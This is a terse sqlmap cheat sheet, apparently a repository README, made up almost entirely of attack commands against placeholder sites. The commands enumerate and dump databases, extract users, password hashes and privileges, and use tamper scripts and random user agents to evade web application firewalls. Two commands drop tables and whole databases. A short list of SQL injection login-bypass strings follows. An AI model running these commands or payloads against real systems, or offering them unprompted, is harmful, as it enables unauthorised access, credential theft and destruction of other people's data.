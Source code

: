 # SQLMAP

1. yoursite.com/news.php?id=1
2. python2 sqlmap.py "yoursite.com/news.php?id=1" --dbs
3. python2 sqlmap.py "yoursite.com/news.php?id=1" --tables -D yoursite
4. python2 sqlmap.py "yoursite.com/news.php?id=1" --columns -D databasename -T tablename
5. python2 sqlmap.py "yoursite.com/news.php?id=1" --dump -D databasename -T tablename
6. python2 sqlmap.py "yoursite.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "yoursite.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql
8. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent
9. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs
10. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 --tables 
11. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 -T coba --dump
12. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP TABLE nama_tabel"
13. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP DATABASE nama_database"
14. python3 sqlmap.py -r request.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs --level=5 --risk=3 --threads=5 --hex --data="id=2618 AND 2323=2323" --dbms=Oracle

// others
1. python sqlmap.py -u "http://yoursite.com/news.php?id=1" --dbs --current-user --current-db --is-dba --users --passwords --roles --hostname --privileges
2. python sqlmap.py -u "https://target.com/?id=1" -t 10 --tamper="between,randomcase,space2comment" --dbs --random-agent --risk=3 --level=5
3. python sqlmap.py -u "https://..." --cookie="" --user-agent="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36" --delay=0 --timeout=30 --retries=0 --dbms=PostgreSQL --level=3 --risk=1 --threads=1 --time-sec=5 --technique=BEUSTQ --current-user --dbs

// set parameter target
sqlmap -r ./target.txt --tamper="between,randomcase,space2comment" --random-agent -p username,password


# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
